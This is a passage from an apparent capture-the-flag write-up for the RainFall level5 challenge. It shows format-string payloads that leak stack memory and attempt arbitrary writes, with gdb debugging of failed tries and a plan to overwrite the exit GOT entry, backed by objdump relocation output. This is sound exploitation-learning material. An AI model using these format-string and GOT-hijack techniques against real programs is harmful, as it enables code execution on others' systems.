 ```bash
level5@RainFall:~$ echo -n -e '\x7c\xf4\xff\xbf%4$s' | ./level5 | xxd
0000000: 7cf4 ffbf 7f88 e7b7 201a fdb7 b0f4 ffbf  |....... .......
0000010: a4f4 ffbf 5088 e7b7 b0f4 ffbf 18f9 ffb7  ....P...........
0000020: f40f fdb7 f884 0408 b0f4 ffbf            ............

level5@RainFall:~$ echo -n -e '\x7c\xf4\xff\xbf%4$n' | ./level5
Segmentation fault (core dumped)

level5@RainFall:~$ echo -n -e '\x7c\xf4\xff\xbf%4$n' > /tmp/lol

level5@RainFall:~$ gdb ./level5
(gdb) run < /tmp/lol
Starting program: /home/user/level5/level5 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()

level5@RainFall:~$ echo -n -e '\x7c\xf4\xff\xbf%134513824$n' > /tmp/lol # Address of o() minus 4 first printed bytes

(gdb) run < /tmp/lol
The program being debugged has been started already.
Start it from the beginning? (y or n) yy
Starting program: /home/user/level5/level5 < /tmp/lol
|�[Inferior 1 (process 3572) exited with code 01]

```

This didn't worked ... maybe another solution is possible ? 

### Overwriting exit from PLT

- [GOT and PLT for pwning.
](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

- [How to Hijack the Global Offset Table with pointers
](https://www.exploit-db.com/papers/13203)

```bash
level5@RainFall:~$ objdump  -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
